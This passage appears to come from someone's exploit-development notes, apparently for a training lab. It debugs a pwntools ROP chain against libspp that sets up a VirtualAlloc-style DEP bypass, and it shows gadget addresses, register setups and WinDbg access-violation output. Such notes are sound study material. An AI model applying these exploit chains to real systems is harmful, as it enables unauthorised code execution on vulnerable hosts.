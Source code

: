 Running this and setting a breakpoint at the end, and it errors.

## Debugging

So close, the edx sar starting value is off.
I think it should be:
```
body += pwn.p32(0x0FFF4040)
```
As it will get shifted to `0x00000FFF` then incremented to `0x00001000`

Trying again
```
0:007> 
(2924.cfc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=0fff4041 ebx=77411594 ecx=1020f040 edx=00000fff esi=7728b770 edi=1015a2f0
eip=10154f1d esp=02d1fadc ebp=90909090 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
libspp!pcre_exec+0x1108d:
10154f1d 8810            mov     byte ptr [eax],dl          ds:002b:0fff4041=??
0:007> 
(2924.cfc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=00000000 ecx=00000000 edx=77638fd0 esi=00000000 edi=00000000
eip=00000000 esp=02d1f6a8 ebp=02d1f6c8 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
00000000 ??              ???
```

...

First thing is that it inc needs to come after the sar
```
#EDX = flAllocationType #0x1000
body += pwn.p32(addr_popecxret)
body += pwn.p32(0x1020f040)
body += pwn.p32(addr_popeaxret)
body += pwn.p32(0x0FFF4040)
body += pwn.p32(addr_movedxeax_saredx)
body += pwn.p32(addr_incecxret)
body += pwn.p32(addr_saredx)
```

Trying again.
Sam exception handler.

Oh the `addr_saredx` gadget is wrong. It should be:
```
0x10142fa2: sar edx, 8; mov byte ptr [ecx + 4], dl; ret;
```

The inc also needs to be on edx
```
0x1012bb29: inc edx; mov ax, dx; ret;
```
